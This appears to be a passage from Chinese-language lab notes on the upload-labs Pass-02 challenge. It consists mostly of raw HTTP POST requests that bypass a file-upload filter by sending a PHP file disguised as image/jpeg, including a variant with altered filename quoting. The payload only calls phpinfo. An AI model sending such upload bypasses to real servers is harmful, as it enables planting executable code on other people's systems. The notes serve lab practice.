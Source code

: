 ```bash
涓婁紶
-----------------------------219208409912899756444268510117--

```
<a name="OnGbe"></a>
#### ![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627980254602-e3cf22c4-2dac-4c1d-b793-bf3728666042.png#clientId=ua88b9d30-961d-4&from=paste&height=481&id=ua89a2e69&originHeight=961&originWidth=1920&originalType=binary&ratio=1&size=154536&status=done&style=none&taskId=u0a0de51f-503a-4d51-b471-2622d0e385c&width=960)
<a name="FF3hk"></a>
#### 改变符号
```bash
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------156187617541967037312717027348
Content-Length: 363
Origin: http://10.1.1.6
Connection: close
Referer: http://10.1.1.6/Pass-02/index.php?action=show_code
Upgrade-Insecure-Requests: 1

-----------------------------156187617541967037312717027348
Content-Disposition: form-data; name="upload_file"; filename="info.php
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------156187617541967037312717027348
Content-Disposition: form-data; name="submit"

涓婁紶
-----------------------------156187617541967037312717027348--

```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627982052482-c5d7fb1b-5ee3-4df5-9fb5-5e445d91c46b.png#clientId=ua88b9d30-961d-4&from=paste&height=445&id=u8464e864&originHeight=889&originWidth=1916&originalType=binary&ratio=1&size=139782&status=done&style=none&taskId=u7e890c61-2edd-4622-bc45-2feed622902&width=958)
```bash
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 10.1.1.6
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------156187617541967037312717027348
Content-Length: 362
Origin: http://10.1.1.6
Connection: close
Referer: http://10.1.1.6/Pass-02/index.php?action=show_code
Upgrade-Insecure-Requests: 1

-----------------------------156187617541967037312717027348
Content-Disposition: form-data; name="upload_file"; filename=info.php
Content-Type: image/jpeg

<?php phpinfo(); ?>
-----------------------------156187617541967037312717027348
```